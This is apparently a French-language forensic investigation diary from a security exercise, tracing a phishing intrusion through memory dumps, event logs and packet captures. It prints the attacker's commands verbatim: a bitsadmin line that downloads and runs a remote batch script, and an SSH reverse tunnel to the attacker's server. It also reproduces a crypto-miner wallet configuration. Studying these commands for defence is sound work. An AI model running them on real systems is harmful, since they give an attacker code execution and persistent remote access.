








# TIMELINE

## 28/02/2024

### Mail

Mail suspicieux d'Homer Simpson


Le mail redirige vers une archive zip et non un PDF

`http://13.39.205.164/CV_Homer_SIMPSON.zip`

C'est un serveur WEB qui tourne derrière cette IP.

### Analyse du Dump Mémoire | strings

On retrouve dans les strings une connexion SSH forward, un tunnel est crée entre la machine et le serveur vu précedemment.

```bash
ssh  -o StrictHostKeyChecking=no -f -N -R 1080 tunnel@13.39.205.164 -p 443

-f foreground
-o option -> StrictHostKeyChecking=no
-N pas d'exec de commande
-R port à forwarder
-p port vers lequel on forward
```

Extraction de données ?

### Processus: cmd.exe

On retrouve dans la liste des processus plusieurs cmd.exe

- 1 dumpit (pid 11256)
- 1 Générator de menace (pid 7072)
- 1 soupçoné d'être notre malware (pid 5728)

On retrouve dans la mémoire du cmd, ce que l'on soupçonne d'être le script malveillant (.bat)
`strings pid.5728.dmp | grep "echo off" -A 10 -B 10`

```bat
@echo off
start http://13.39.205.164/CV_Homer_SIMPSON.pdf
start /min ssh -o StrictHostKeyChecking=no -f -N -R 1080 tunnel:tunnel@13.39.205.164 -p 443
wmic process where "name='cmd.exe'" delete
exit
```

wmic process where... doit servir à supprimer instantanément le cmd
Ce programme .bat est probablement télécharge après l'ouverture d'un des fichiers dans l'archive, puisque l'on retrouve cette ligne dans les strings du dump mémoire:


Il y a donc un téléchargement du fichier `autologon.bat` depuis le serveur web et l'execution de celui-ci. Le code retrouvé précedemment est probablement le contenu de ce .bat.

On retrouve également sur la machine un programme étrange du nom de **bInckFhm.exe** au PID 440 que je n'ai pas pu décompilé.

## 29/02/2024

### Analyse evtx

Avec l'outil Chainsaw j'applique des sigma rules pour trier les logs evtx et les exporter en CSV.

On retrouve la création d'un utilisateur: `lisa.simpson`


On cherchant dans les strings, on retrouve la création de cet utilisateur ainsi que l'ajout de ce dernier au groupe "administrateurs"


On retrouve ces informations dans les logs evtx ouvert dans windows.

### Analyse des pièces jointes présentes sur le serveur web

On a pu récupérer les fichiers ZIP et autologon.bat présent sur le serveur WEB.


Le ZIP contient un .lnk qui est un raccourci avec une icone de pdf et il continent également le vrai CV d'Homer Simpson.

Dans le .lnk, on remarque l'execution d'une commande dans un CMD:


```bat
"C:\Windows\System32\cmd.exe" /k "bitsadmin /transfer mydownloadjob /download /priority FOREGROUND "http://13.39.205.164/autologon.bat" "c:\users\public\autologon.bat" && start c:\users\public\autologon.bat && exit"
```

C'est la commande qui télécharge l'autologon.bat. Ce dernier contient le programme suivant:

```bat
@echo off
start http://13.39.205.164/CV_Homer_SIMPSON.pdf
start /min ssh -o StrictHostKeyChecking=no -f -N -R 1080 tunnel:tunnel@13.39.205.164 -p 443
wmic process where "name='cmd.exe'" delete
exit
```

C'est bien le programme que j'avais trouvé hier dans les strings.

## 01/03/2024

### Analyse des strings du processus ssh.exe (pid 7328)

Dans les strings du protocole ssh je fais une découverte interessant avec des fichiers sur le Bureau (qui n'apparaissent pas dans le filescan).


Il y a notamment le fichiers CVE-2021-1675.ps1.txt qui me saute au yeux car après une recherche il s'agit d'un script permettant la création d'un utilisateur local et de le placer dans le groups des administrateur. De la même facon que lisa.simpson à été créer. Ce script est disponible juste ici:

### Analyse Wireshark

172.19.3.2 -> Serveur HTTP3 avec QUIC


Et serveur DNS


Trafic HTTP over TLS avec 2 IP publiques: (51.159.9.95 et 18.193.121.83)


Serveur FTP sur 172.19.3.3 avec connexion de n.flanders.


## 04/03/2024

### Wireshark FTP

On remarque dans la capture Wireshark, plusieurs trames correspondantes avec des essais de credentials différents, cela ressemble à de l'attaque par dictionnaire pour trouver un accès à ce serveur. L'attaquant parvient à trouver le mot de passe de l'utilisateur n.flanders.

Mot de passe incorrect:


Connexion réussie:


### Analyse du DC de l'AD

On a récupéré un dump mémoire du Domain Controller ainsi que des logs evtx de ce dernier.

### Analyse de la RAM

On retrouve dans le pslist plusieurs processus Kryptex, après une recherche je me rends compte qu'il s'agit d'un mineur de cryptomonnaie.





On trouve dans le netstat une connexion RDP depuis une adresse public (10.15.9.161)


Egalement, le DC de l'AD est connecté au serveur FTP (172.19.3.3) sur le port 22, potentiellement SSH ou SFTP ?


En recherchant dans les strings du dump mémoire, je cherche le terme "wallet" et j'ai trouvé une liste de wallets dans un JSON avec également une adresse email lié à ces wallets:


En analysant un peu plus proprement avec jq j'obtiens le fichier suivant:



```json
{
  "etc": [
    {
      "pool": "etc.kryptex.network",
      "port": 7777,
      "ssl_port": 8888,
      "password": "",
      "wallet": "0x529e3d7050aa576fe3ead29ca321aee2b146727f",
      "worker_id": "v2e5e9b76a"
    }
  ],
  "eth": [
    {
      "pool": "ethw-eu.kryptex.network",
      "port": 7777,
      "ssl_port": 8888,
      "password": "mergehappened",
      "wallet": "0x57462e4A68F5E66012b5A3b44a6E0f19081a605d",
      "worker_id": "v2e5e9b76a"
    }
  ],
  "nexa": [
    {
      "pool": "nexa.kryptex.network",
      "port": 7777,
      "ssl_port": 8888,
      "password": "xxxxxx",
      "wallet": "nexa:nqtsq5g5lny623huk5vvw2ng4kcu6zcx7vm82vku3q56j4tp",
      "worker_id": "v2e5e9b76a"
    }
  ],
  "exp": [
    {
      "pool": "exp-eu.kryptex.network",
      "port": 7000,
      "ssl_port": 8888,
      "password": "",
      "wallet": "0x6117a692989732e9d2059e0f7bde2fc11878d7ed",
      "worker_id": "v2e5e9b76a"
    }
  ],
  "erg": [
    {
      "pool": "erg.kryptex.network",
      "port": 7777,
      "ssl_port": 8888,
      "password": "xxxxxx",
      "wallet": "9fEqoLLD5hz2c11uA7dk5eqe1YzPEr25GrgwdR2HLCuzPqWQCz5",
      "worker_id": "v2e5e9b76a"
    }
  ],
  "kas": [
    {
      "pool": "kas.kryptex.network",
      "port": 7777,
      "ssl_port": 8888,
      "password": "xxxxxx",
      "wallet": "kaspa:qp0dunq69an3m0ggls37zuq9c22pga22q9e9jzfx8sq60uzxfpq4s0saelprw",
      "worker_id": "v2e5e9b76a"
    }
  ],
  "cfx": [
    {
      "pool": "cfx.kryptex.network",
      "port": 7777,
      "ssl_port": 8888,
      "password": "x",
      "wallet": "cfx:aanypnwmrd48p2aw00v5jwxsb6puugxanyt9132tg5",
      "worker_id": "v2e5e9b76a"
    }
  ],
  "beam": [
    {
      "pool": "beam-eu.kryptex.org",
      "port": 2222,
      "ssl_port": 8888,
      "password": "x",
      "wallet": "18bdda8a95fa392e58ba67c72d642086715a8d0fc0fc4519442d77bddef9e3045c4",
      "worker_id": "v2e5e9b76a"
    }
  ],
  "rvn": [
    {
      "pool": "rvn.kryptex.network",
      "port": 7777,
      "ssl_port": 8888,
      "password": "xxxxxx",
      "wallet": "RDLBJT5S6dmuoPg26caEcimbQPKfoyG6cc",
      "worker_id": "v2e5e9b76a"
    }
  ],
  "iron": [
    {
      "pool": "iron.kryptex.network",
      "port": 7777,
      "ssl_port": 8888,
      "password": "x",
      "wallet": "3a495943b6343c392dcfff68b6e7dce3b04537127b16648939e96a6f711e03b0+002493629937d235",
      "worker_id": "v2e5e9b76a"
    }
  ],
  "ubq": [
    {
      "pool": "ubq.kryptex.network",
      "port": 7000,
      "ssl_port": 8888,
      "password": "xxxxxx",
      "wallet": "0x510aec7f266557b7de753231820571b13eb31b57",
      "worker_id": "v2e5e9b76a"
    }
  ],
  "zeph": [
    {
      "pool": "zeph.kryptex.network",
      "port": 7777,
      "ssl_port": 8888,
      "password": "x",
      "wallet": "ZEPHsDAQSPbj6rzGBR4iXk53A1eunD7eVhdeL1MtY88HYT69ESZyxpz6LARmyZGXY9bNkzhYAGgP2Y61QKmngLaaWhitSPTr2NT",
      "worker_id": "v2e5e9b76a"
    }
  ],
  "xna": [
    {
      "pool": "xna.kryptex.network",
      "port": 7777,
      "ssl_port": 8888,
      "password": "x",
      "wallet": "NXqz5orivhjZ78A27DytgHDcVn5xGhpAvb",
      "worker_id": "v2e5e9b76a"
    }
  ],
  "clore": [
    {
      "pool": "clore.kryptex.network",
      "port": 7777,
      "ssl_port": 8888,
      "password": "x",
      "wallet": "AKprsS3mpxdVYMWpC6FSg5hV7inmWAoMfk",
      "worker_id": "v2e5e9b76a"
    }
  ],
  "pyi": [
    {
      "pool": "pyi.kryptex.network",
      "port": 7777,
      "ssl_port": 8888,
      "password": "x",
      "wallet": "pyrin:qqh5n82gmptaaxsdrq8sm08px2vhql4c462syryl6n020v3qaju3uycr4tvmm",
      "worker_id": "v2e5e9b76a"
    }
  ],
  "kls": [
    {
      "pool": "kls.kryptex.network",
      "port": 7777,
      "ssl_port": 8888,
      "password": "x",
      "wallet": "karlsen:qzj3vtrsdq6td7a2dpnlv0l5zh70t3v8mpczv679zhjvjcut94n022hxw06h7",
      "worker_id": "v2e5e9b76a"
    }
  ],
  "xmr": [
    {
      "pool": "xmr.kryptex.network",
      "port": 7777,
      "ssl_port": 8888,
      "password": "x",
      "wallet": "4DSQMNzzq46N1z2pZWAVdeA6JvUL9TCB2bnBiA3ZzoqEdYJnMydt5akCa3vtmapeDsbVKGPFdNkzqTcJS8M8oyK7WGj2eezRPM372XRSQi",
      "worker_id": "v2e5e9b76a"
    }
  ]
}
```

Cette liste de wallet est contenu dans un fichier JSON bien plus grand, dans ce plus grand fichier on peut lire les champs suivants:

```json
{"state":{"auth":{"token":true,"username":"tahiti.bob.pro@outlook.com"}
```



En tentant de créer un compte sur le site de Kryptex pour vérifier que l'email appartient bien à un compte sur cette plateforme, je m'apperçois que c'est bien le cas, l'email semble bien être associé à un compte Kryptex.

## 05/03/2024

### Analyse des logs evtx

J'utilise chainsaw pour analyser les logs evtx en filtrant avec les règles sigma et obtenir un résultat en csv:



On retrouve 64 fois l'alertes "LSASS Access From Non System Accoun" dans le logs de sécurité.


Selon Splunk, il peut s'agir d'une tentative de dump des informations de connexion ou alors des applications qui ont besoins d'y accéder.



Ensuite, on retrouve 330 alertes "Active Directory Replication from Non Machine Account;Mimikatz DC Sync" portant l'Event ID 4662. Depuis l'utilisateur n.flanders



Il s'agit probablement d'un attaque DCSync utilisable avec Mimikatz.
